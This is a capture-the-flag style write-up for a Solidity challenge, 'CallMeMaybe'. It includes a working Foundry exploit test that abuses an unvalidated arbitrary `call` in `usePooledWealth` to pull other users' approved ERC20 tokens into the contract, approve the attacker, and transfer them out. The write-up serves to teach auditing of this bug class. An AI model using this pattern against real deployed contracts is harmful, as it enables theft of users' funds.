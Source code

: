 # CallMeMaybe
Hopefully you figure out that you can use the function `usePooledWealth` to call the `CallMeMaybe` smart contract. The line `_target.call(_calldata);` does not validate the target contract or the calldata. This allows us to call the ERC20 token and approve ourselves. Since we are making the call from the smart contract, we are approving the smart contract to allow us to spend it's tokens. To steal 600 tokens, first we need to transfer the tokens from the users who max approved the contract. Then we are free to approve ourselves to spend the tokens.

Here is my version of the exploit:
```
function test_GetThisPassing_2() public {
    address hacker = address(0xBAD);

    uint256 startBalance = token.balanceOf(hacker);

    vm.startPrank(hacker);

    // join the group
    token.approve(address(target), 1 ether);
    target.joinGroup(1 ether);

    // itterate through and transfer the other users' tokens to the contract
    for (uint256 i; i < users.length; i++) {
        address user = users[i];
        bytes memory _calldataTransfer = abi.encodeCall(token.transferFrom, (user, address(target), token.balanceOf(user)));
        target.usePooledWealth(_calldataTransfer, address(token));
    }

    // form our approve calldata
    bytes memory _calldataApprove = abi.encodeCall(token.approve, (hacker, type(uint256).max));
    
    // call the contract approving ourselves to spend the tokens
    target.usePooledWealth(_calldataApprove, address(token));

    // transfer out the tokens
    token.transferFrom(address(target), hacker, 601 ether);

    vm.stopPrank();
    assertGt(token.balanceOf(hacker), 300 ether);
}
```
To sumarize here is the steps we needed to complete the hack:

1. Join the group so we have access to call `usePooledWealth`.

2. Loop through each user transfering their tokens to the smart contract via `usePooledWealth`.

3. Use `usePooledWealth` to call `approve` on the ERC20 token.

4. Use `transferFrom` to steal the tokens from the contract.


I would like to point out that we stole address(0x03)'s tokens even though they were no longer a part of the group. This is why it is dangerous to max approve a smart contract!

This exploit is special to me as I found one in my first C4 challenge. Hopefully, you now know to check for similar bugs when you see a smart contract use `call` with user inputed calldata!